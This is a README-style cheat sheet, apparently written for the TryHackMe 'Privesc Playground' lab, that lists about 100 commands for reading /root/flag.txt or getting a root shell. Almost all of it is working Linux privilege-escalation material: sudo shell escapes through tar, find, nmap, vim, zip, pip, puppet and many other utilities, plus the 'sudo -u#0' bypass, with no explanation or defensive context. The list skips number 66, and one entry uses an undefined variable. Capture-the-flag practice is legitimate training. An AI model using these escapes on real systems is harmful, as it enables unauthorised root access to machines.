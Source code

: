 #Linux Privesc Playground

##100 Ways of capturing root flags

https://tryhackme.com/room/privescplayground

1. sudo arp -v -f "/root/flag.txt"
2. sudo ash
3. sudo awk '//' "/root/flag.txt"
4. sudo bash
5. sudo base64 "/root/flag.txt" | base64 --decode
6. sudo busybox sh , sudo busybox cat /root/flag.txt
7. sudo cat /root/flag.txt
8. sudo chmod 0777 /root/flag.txt , cat /root/flag.txt
9. sudo chown $(id -un):$(id -gn) /root/flag.txt , cat /root/flag.txt
10. cp /root/flag.txt /dev/stdout
11. sudo csh , cat /root/flag.txt
12. cut -d "" -f1 /root/flag.txt
13. sudo dash , cat /root/flag.txt
14. date -f /root/flag.txt
15. emacs /root/flag.txt
16. sudo env /bin/sh , cat /root/flag.txt
17. expand /root/flag.txt
18. sudo expect -c 'spawn /bin/sh;interact' , cat /root/flag.txt
19.
 ```bash
TF=$(mktemp -d)
echo 'exec("/bin/sh")' > $TF/x.rb
FACTERLIB=$TF facter
```
20. file -f /root/flag.txt
21. dd if=/root/flag.txt
22. diff --line-format=%L /dev/null  /root/flag.txt
23. sudo dmsetup ls --exec '/bin/sh -s' , cat /root/flag.txt
24. 
```bash 
TF=$(mktemp -d)
echo 'print(open("/root/flag.txt").read())' > $TF/setup.py
easy_install $TF
```
25. sudo find . -exec /bin/sh \; -quit , cat /root/flag.txt
26. sudo flock -u / /bin/sh , cat /root/flag.txt
27. fmt -999 /root/flag.txt
28. fold -w99999999 /root/flag.txt
29. 
```bash 
sudo ftp
!/bin/sh
cat /root/flag.txt
```
30. sudo gawk '//' /root/flag.txt
31. gdb -nx -ex 'python print(open("/root/flag.txt").read())' -ex quit
32.
```bash
sudo irb
puts File.read("/root/flag.txt")
```
33. sudo jq -R . /root/flag.txt
34. sudo ksh , cat /root/flag.txt
35. less /root/flag.txt
36. 
```bash
sudo logsave /dev/null /bin/sh -i
cat /root/flag.txt
```
37.
```bash
sudo ltrace -L /bin/sh
cat /root/flag.txt
```
38.
```bash
git help config
!/bin/sh
```
39. grep '' /root/flag.txt
40. head -c1G /root/flag.txt
41. ionice /bin/sh , cat /root/flag.txt
42. ip -force -batch /root/flag.txt
43. sudo lua -e 'os.execute("/bin/sh")' , cat /root/flag.txt
44. sudo man /root/flag.txt
45. sudo mawk '//' "/root/flag.txt"
46. more /root/flag.txt
47. 
```bash
sudo mount -o bind /bin/sh /bin/mount
sudo mount
cat /root/flag.txt
```
48. mv /root/flag.txt . , cat /root/flag.txt
49. nano /root/flag.txt
50. sudo nawk '//' /root/flag.txt
51. nice /bin/sh , cat /root/flag.txt
52. nl -bn -w1 -s '' /root/flag.txt
53. 
```bash
sudo nmap --interactive
nmap> !sh
cat /root/flag.txt
```
54. od -An -c -w9999 /root/flag.txt
55. openssl enc -in /root/flag.txt
56. sudo perl -e 'exec "/bin/sh";' , cat /root/flag.txt
57. pg /root/flag.txt
58. 
```bash
pic -U
.PS
sh X sh X
cat /root/flag.txt
```
59. 
```bash
pico -s /bin/sh
/bin/sh
Control+T
cat /root/flag.txt
```
60. 
```bash
TF=$(mktemp -d)
echo 'raise Exception(open("/root/flag.txt").read())' > $TF/setup.py
pip install $TF
```
61. sudo puppet apply -e "exec { '/bin/sh -c \"exec sh -i <$(tty) >$(tty) 2>$(tty)\"': }" , cat /root/flag.txt
62. python -c 'print(open("/root/flag.txt").read())'
63. readelf -a @$/root/flag.txt
64. rlwrap /bin/sh , cat /root/flag.txt
65. rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null , cat /root/flag.txt
67. sudo ruby -e 'puts File.read("/root/flag.txt")'
68. run-parts --new-session --regex '^sh$' /bin , cat /root/flag.txt
69. rvim /root/flag.txt
70. 
```bash
TF=$(mktemp)
echo 'sh 0<&2 1>&2' > $TF
chmod +x "$TF"
scp -S $TF x y:
```
71. sudo screen , press SPACE ,  cat /root/flag.txt
72. sudo script -q /dev/null , cat /root/flag.txt
73. sed '' /root/flag.txt
74. sudo service ../../bin/sh , cat /root/flag.txt
75. setarch $(arch) /bin/sh , cat /root/flag.txt
76. socat stdin exec:/bin/sh , cat /root/flag.txt
77. sort -m /root/flag.txt
78. 
```bash
sudo sqlite3 << EOF
CREATE TABLE t(line TEXT);
.import $LFILE t
SELECT * FROM t;
EOF
```
79. sudo ssh -F /root/flag.txt localhost
80. start-stop-daemon -n $RANDOM -S -x /bin/sh , cat /root/flag.txt
81. stdbuf -i0 /bin/sh , cat /root/flag.txt
82. strace -o /dev/null /bin/sh , cat /root/flag.txt
83. tail -c1G /root/flag.txt
84. sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh , cat /root/flag.txt
85. sudo taskset 1 /bin/sh , cat /root/flag.txt
86. 
```bash
tclsh
exec /bin/sh <@stdin >@stdout 2>@stderr
```
87. /usr/bin/time /bin/sh , cat /root/flag.txt
88. timeout 7d /bin/sh , cat /root/flag.txt
89. sudo tmux , cat /root/flag.txt
90. ul /root/flag.txt
91. unexpand -t99999999 /root/flag.txt
92. uniq /root/flag.txt
93. sudo unshare /bin/sh , cat /root/flag.txt
94. vi /root/flag.txt
95. vim /root/flag.txt
96. sudo watch -x bash -c 'reset; exec bash 1>&0 2>&0' , cat /root/flag.txt
97. xargs -a /root/flag.txt -0 
98. xxd /root/flag.txt | xxd -r
99. 
```bash
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```
100. sudo zsh , cat /root/flag.txt
101. sudo -u#0 /bin/bash
